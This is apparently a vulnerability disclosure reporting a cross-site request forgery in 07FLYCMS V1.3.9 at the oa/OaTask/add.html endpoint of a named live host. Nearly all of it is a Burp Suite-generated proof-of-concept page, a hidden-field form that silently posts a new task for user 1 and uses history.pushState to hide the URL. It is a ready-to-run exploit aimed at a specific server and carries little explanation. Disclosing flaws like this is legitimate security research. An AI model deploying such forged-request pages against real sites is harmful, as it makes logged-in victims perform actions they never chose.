 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaTask/add.html

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaTask/add.html" method="POST">
      <input type="hidden" name="name" value="cs" />
<input type="hidden" name="level" value="0" />
<input type="hidden" name="start_time" value="2024-10-17+21%3A02%3A46" />
<input type="hidden" name="end_time" value="2024-10-17+21%3A02%3A47" />
<input type="hidden" name="owner_user_id" value="1" />
<input type="hidden" name="assist_user_id" value="" />
<input type="hidden" name="assist_user_name" value="" />
<input type="hidden" name="progress" value="" />
<input type="hidden" name="content" value="%3Cdiv+id%3D%22translatorExtensionContainer%22+class%3D%22translatorExtension%22%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cdiv+class%3D%22translatorExtension%22+style%3D%22margin%3A0px+auto%3B%22%3E%0D%0A%3C%2Fdiv%3E" />
<input type="hidden" name="status" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

